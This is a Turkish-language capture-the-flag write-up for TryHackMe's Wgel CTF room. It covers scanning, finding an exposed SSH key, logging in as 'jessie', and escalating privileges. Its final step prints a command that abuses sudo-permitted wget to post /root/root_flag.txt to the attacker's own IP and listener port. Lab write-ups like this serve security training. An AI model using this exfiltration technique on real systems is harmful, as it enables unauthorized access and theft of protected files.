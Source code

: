 # **[İçeriğin orijinalini görmek için linke tıklayın](https://sibermetin.com/zafiyetli-makine-cozumu-tryhackme-wgel-ctf-writeup)**

---

[Wgel CTF](https://tryhackme.com/room/wgelctf) odanın makine çözümü hakkında bir yazı. İyi çalışmalar.

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a7f34d9cfd.jpg)

Oda çözümüne Nmap taraması ile başlayalım.

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a5224332f8.jpg)

Yaptığımız tarama sonucunda  22/tcp ssh ve 80/tcp http servislerin açık olduğu görünüyor. Herkese açık olduğu için 80 numaralı bağlantı noktasındaki sunucuya bir göz atalım:

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a81c6ad20c.jpg)

Standart  Apache sayfasına benziyor. Bir de kaynak kodlarını kontrol edelim :

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a828a27744.jpg)

"Jessie web sitesini güncellemeyi unutma." şeklinde bir notla karşılaşıyoruz. Jessie daha sonra kullanabileceğimiz bir kullanıcı adı olabilir.

Kaynak kodundan başka bir şey çıkmadığı için bir de dizin taraması yapalım :

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a82cadf8ec.jpg)

Sitemap adında bir dizin buluyoruz. Bu dizini kontrol ediyoruz ve bir şey çıkmıyor. Tekrar sitemap içinde bir dizin taraması yapalım :

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a861c7604d.jpg)

Bu dizini kontrıol edelim:

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a8686c465e.jpg)

Bir ssh id_rsa anahtarı bulduk. id_rsa'yı indirip, gerekli izinleri verelim. İzinleri vermek için aşağıdaki komutu kullanabilirsiniz :

- chmod 600 id_rsa

Şimdi bu id_rsa anahtarı ve Web sitesinde bulmuş olduğum kullanıcı adı ile ssh bağlantısı gerçekleştirmeyi deneyelim:

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a871e1a263.jpg)

ssh bağlantısını başarılı bir şekilde gerçekleştirdik. Şimdi kullanıcı bayrağını bulalım :

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a87640984a.jpg)

Genellikle bayraklar .txt dosyalarında olur. Bulmak için find komutunu kullanalım.

- find / -type f -name *.txt 2>/dev/null

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a87bb87ac9.jpg)

Bayrağımız Documents dizininin altındaymış. Documents dizinine gidip cat komutuyla bayrağımızı okuyalım.

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a8817479bf.jpg)

user_falag.txt içindeki bayrağı bulmuş olduk.

Root bayrağını bulmamız için yetki yükseltmemiz gerekli. Bunun için sudo -l komutu ile root izini verilen komutlara bakalım.

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a887d8ea03.jpg)

/usr/bin/wget de şifresiz root olabileceğimizi görüyoruz. Bu açığı kullanabiliriz.

İlk olarak ncat ile kendi bilgisayarımızı dinlemeye alalım.

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a88d3a9694.jpg)

Karşı makineye şu komutu girelim :

- sudo /usr/bin/wget -post-file=/root/root_flag.txt TryHackMe'nin verdiği ip(vpn):dinlenecek port

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a89394a3ed.jpg)

wget dizinini kullandığımız için bizden şifre istemedi. Dinleme yaptığımız terminale giderek herhangi bir çıktı vermiş mi bakalım.

![resim](https://sibermetin.com/uploads/images/202204/image_750x_626a899362e51.jpg)

Ve root bayrağı karşımızda!! Böylelikle odayı tamamlamış olduk İyi çalışmalar...
